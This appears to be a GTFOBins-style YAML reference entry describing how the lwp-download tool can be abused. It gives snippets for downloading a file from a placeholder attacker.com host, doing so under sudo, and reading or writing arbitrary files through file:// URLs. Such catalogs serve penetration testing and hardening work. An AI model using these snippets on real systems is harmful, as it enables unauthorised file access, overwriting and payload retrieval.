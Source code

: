 description: Fetch a remote file via HTTP GET request.
functions:
  file-download:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        lwp-download $URL $LFILE
  sudo:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo lwp-download $URL $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        LFILE=file_to_read
        TF=$(mktemp)
        lwp-download "file://$LFILE" $TF
        cat $TF
  file-write:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA >$TF
        lwp-download file://$TF $LFILE
---

